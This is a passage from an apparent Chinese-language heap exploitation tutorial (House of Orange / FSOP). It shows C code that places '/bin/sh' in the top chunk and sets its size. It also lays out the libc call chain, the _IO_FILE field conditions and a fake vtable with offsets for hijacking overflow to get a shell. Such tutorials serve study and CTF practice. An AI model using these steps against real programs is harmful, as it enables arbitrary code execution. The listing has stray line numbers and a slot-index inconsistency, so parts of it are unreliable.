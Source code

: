 这部分的代码如下：

```c
memcpy( ( char *) top, "/bin/sh\x00", 8); // 最终执行的_IO_OVERFLOW(fp, EOF)中的fp实际上是_IO_FILE_plus结构体的地址，对应top chunk的地址
// 因此直接往top chunk地址处写/bin/sh\x00

top[1] = 0x61; // 更改top chunk的size为0x61，在触发unsortedbin attack后，还会将其挂入大小为0x60的smallbin
// 这是因为main_arena + 192是指向大小为0x60的smallbin的最后一个chunk的，如此以来第一个_IO_FILE_plus的_chain指向top chunk
```

## 0x03: 满足利用条件，触发FSOP调用链获得shell

需要利用的漏洞：控制`top chunk`即可

有的读者可能注意到我们将`top chunk`置入`unsortedbin`后，一直没有调用`malloc`来触发`unsortedbin attack`，也没有将`top chunk`置入`small bin`中。实际上在最后调用`malloc`时，这个申请内存的操作会先后触发`unsortedbin attack`，然后将其置入`small bin`；并且由于`unsortedbin attack`时已经破坏了其链表结构，因此会触发`malloc() -> malloc_printerr() -> __libc_message() -> abort() -> fflush() -> _IO_flush_all_lockp() -> _IO_new_file_overflow()`函数的调用链。因此，在`malloc`之前，我们需要检查剩下的安全机制，来保证我们的攻击可以成功。在`_IO_flush_all_lockp()`函数中，要满足要求`fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base`。因此，可以设置如下条件：

- `fp->_mode=0`，其中`_mode`对于起始位置的偏移是`0xc0`
- `fp->_IO_write_base = (char*)2;`
- `fp->_IO_wirte_ptr = (char*)3;`

满足以上条件后，我们便可以覆盖掉`_IO_new_file_overflow`函数的函数指针了。`vtable`中的函数如下：

```c
void * funcs[] = {
   1 NULL, // "extra word"
   2 NULL, // DUMMY
   3 exit, // finish
   4 NULL, // overflow
   5 NULL, // underflow
   6 NULL, // uflow
   7 NULL, // pbackfail
   8 NULL, // xsputn  #printf
   9 NULL, // xsgetn
   10 NULL, // seekoff
   11 NULL, // seekpos
   12 NULL, // setbuf
   13 NULL, // sync
   14 NULL, // doallocate
   15 NULL, // read
   16 NULL, // write
   17 NULL, // seek
   18 pwn,  // close
   19 NULL, // stat
   20 NULL, // showmanyc
   21 NULL, // imbue
};
```

这里我们需要覆盖`overflow`函数，也就是`vtable[3]`。而另外`vtable`相对于`_IO_FILE_plus`起始地址处的偏移是`0xd8`。`top chunk`的`IO_FILE_plus`结构体中的`vtable`是可以任意构造值的，我们将其设置到`top chunk`处的任意地方即可，只需要注意`fake_vtable->overflow`处不要被占用。这部分代码如下：
